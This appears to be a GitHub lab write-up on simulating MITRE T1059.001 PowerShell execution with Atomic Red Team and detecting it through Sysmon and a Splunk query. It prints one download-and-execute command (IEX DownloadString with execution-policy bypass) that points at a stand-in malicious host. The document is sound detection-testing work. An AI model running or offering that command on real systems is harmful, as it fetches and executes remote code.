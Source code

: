 # T1059.001 – PowerShell Execution

**MITRE Technique**: [T1059.001 – Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)

This attack simulates malicious PowerShell execution using Atomic Red Team on a domain-joined Windows 10 machine. The purpose is to test endpoint visibility using Sysmon and log detection with Splunk.

---

## 🎯 Objective

* Simulate a real-world PowerShell-based attack
* Confirm Sysmon logs command line activity (Event ID 1)
* Verify detection in Splunk via search queries

---

## 🧪 Atomic Command Used

```powershell
powershell.exe -nop -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious[.]domain/script.ps1')"
```

This PowerShell command reflects a common technique used by attackers to download and execute remote code.

---

## 🔍 Detection in Splunk

### Tools Involved:

* Sysmon installed on Windows 10
* Splunk Universal Forwarder running on the same host
* Splunk Enterprise server receiving and indexing logs
* Atomic Red Team running directly on the Windows target

### Detection Method:

* Sysmon Event ID 1 logs all process creations, including full PowerShell command lines
* Splunk ingests these logs under sourcetype `WinEventLog:Microsoft-Windows-Sysmon/Operational`

### Splunk Detection Query:

```splunk
index=endpoint sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| search CommandLine="*powershell*"
| table _time, Computer, User, CommandLine
```

### What to Look For:

* Suspicious PowerShell usage
* Base64 encoded or obfuscated strings
* Unexpected external IPs or domains


---

## ✅ Result

* PowerShell execution logged by Sysmon (Event ID 1)
* Event successfully forwarded to Splunk
* Detection via query confirmed visibility

---

## 📸 Screenshots

### 1. Atomic Red Team Inference 
![PowerShell Attack](../screenshots/t1136.002.PNG)


### 2. PowerShell Line:

![PowerShell Attack](../screenshots/sheline.PNG)

### 2. Atomic Red Team payload being triggered:

![PowerShell Attack](../screenshots/T1059.001%20attack.PNG)

### 3. Search

![PowerShell Attack](../screenshots/new.PNG)

### 4. Microsoft Defender Doesn't like :

![Search Shows](../screenshots/59%20sign%20in.PNG)

### 5. Powershell search showing detection:

![Log Entry](../screenshots/we%20can%20search%20powershell%20as%20well%20to%20see.PNG)

### 6. Log entry with PowerShell payload:

![Payload](../screenshots/what%20to%20look%20for%20in%20powershell.PNG)
